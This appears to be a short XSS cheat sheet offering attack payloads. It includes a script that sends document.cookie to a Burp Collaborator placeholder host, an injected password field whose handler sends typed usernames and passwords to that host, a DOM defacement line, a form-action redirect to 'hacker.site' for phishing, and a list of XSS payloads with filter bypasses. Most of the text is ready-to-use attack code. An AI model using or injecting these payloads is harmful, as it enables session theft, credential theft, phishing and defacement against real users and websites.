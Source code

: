 ```
<script>
fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

## capture passwords

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```




Web Defacement

- Make use of Persistent XSS
    
- Change the appearance of the web by manipulating the DOM
    


```
document.body.innerHTML="<h1>What!</h1>";
```

Phishing

- By modifying the form action's destination
    

```
document.forms[0].action="https://hacker.site/thanks.php";
```



---

### Top XSS Payloads

1-`<script>alert("1")</script>`

2-`<sCript> alert("bypassing simple filters") </sCRIpt>`

3-`<a onmouseover="alert(document.cookie)">xxs link</a> | <a onmouseover=alert(document.cookie)>xxs link</a>`

4-`<img src='zzzz' onerror='alert(1)' />`
